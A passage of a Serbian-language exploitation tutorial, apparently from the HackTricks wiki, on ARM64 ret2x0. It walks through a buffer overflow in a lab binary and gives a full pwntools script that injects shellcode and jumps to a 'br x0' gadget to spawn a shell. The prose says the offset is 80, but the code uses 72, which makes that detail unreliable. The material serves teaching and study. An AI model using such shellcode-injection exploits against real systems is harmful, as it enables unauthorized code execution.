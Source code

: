 <figure><img src="../../images/image (1225).png" alt="" width="563"><figcaption></figcaption></figure>

Takođe je moguće pronaći gadget **`br x0`** u funkciji **`do_stuff`**:

<figure><img src="../../images/image (1226).png" alt="" width="563"><figcaption></figcaption></figure>

Iskoristićemo taj gadget da skočimo na njega jer je binarni fajl kompajliran **BEZ PIE.** Koristeći obrazac, moguće je videti da je **offset buffer overflow-a 80**, tako da bi exploit bio:
```python
from pwn import *

p = process('./ret2x0')
elf = context.binary = ELF('./ret2x0')

stack_offset = 72
shellcode = asm(shellcraft.sh())
br_x0 = p64(0x4006a0) # Addr of: br x0;
payload = shellcode + b"A" * (stack_offset - len(shellcode)) + br_x0

p.sendline(payload)
p.interactive()
```
> [!WARNING]
> Ako je umesto `fgets` korišćena neka funkcija poput **`read`**, bilo bi moguće zaobići PIE tako što bi se **samo prepisala poslednja 2 bajta adrese povratka** da bi se vratio na instrukciju `br x0;` bez potrebe da se zna cela adresa.\
> Sa `fgets` to ne funkcioniše jer **dodaje null (0x00) bajt na kraju**.

## Protekcije

- [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md): Ako stek nije izvršiv, ovo neće pomoći jer treba da stavimo shellcode na stek i skočimo da ga izvršimo.
- [**ASLR**](../common-binary-protections-and-bypasses/aslr/) & [**PIE**](../common-binary-protections-and-bypasses/pie/): Ove zaštite mogu otežati pronalaženje instrukcije na koju treba skočiti, bilo na esp ili neki drugi registar.

## Reference

- [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode)
- [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp)

{{#include ../../banners/hacktricks-training.md}}
